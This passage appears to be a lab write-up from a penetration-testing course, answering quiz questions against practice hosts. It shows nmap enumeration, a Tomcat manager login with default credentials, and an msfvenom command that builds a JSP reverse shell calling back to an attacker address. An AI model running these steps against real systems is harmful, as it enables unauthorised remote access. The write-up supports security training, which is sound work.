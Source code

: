 ```bash
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-17T08:55:21-08:00
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:5d:7c (VMware)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

shells-winsvr

### Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)

```bash
#fist go to the target webpage since its port 8080
172.16.1.11:8080
#go to the manager app page
#creds tomcat:Tomcatadm
#now we generate java reverse shell with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=8989 -f war > reverse.war
#upload it, then go to the page
#172.16.1.11:8080/reverse
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>cd C:\Shares
C:\Shares>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37
 Directory of C:\Shares
09/22/2021  12:22 PM    <DIR>          .
09/22/2021  12:22 PM    <DIR>          ..
09/22/2021  12:24 PM    <DIR>          dev-share
               0 File(s)              0 bytes
               3 Dir(s)  26,683,228,160 bytes free
```

dev-share

### What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

```bash
nmap -sC -sV blog.inlanefreight.local
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-17 12:24 EST
Nmap scan report for blog.inlanefreight.local (172.16.1.12)
Host is up (0.11s latency).
Other addresses for blog.inlanefreight.local (not scanned): 172.16.1.12
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f6:21:98:29:95:4c:a4:c2:21:7e:0e:a4:70:10:8e:25 (RSA)
|   256 6c:c2:2c:1d:16:c2:97:04:d5:57:0b:1e:b7:56:82:af (ECDSA)
|_  256 2f:8a:a4:79:21:1a:11:df:ec:28:68:c2:ff:99:2b:9a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Inlanefreight Gabber
| http-robots.txt: 1 disallowed entry 
|_/
```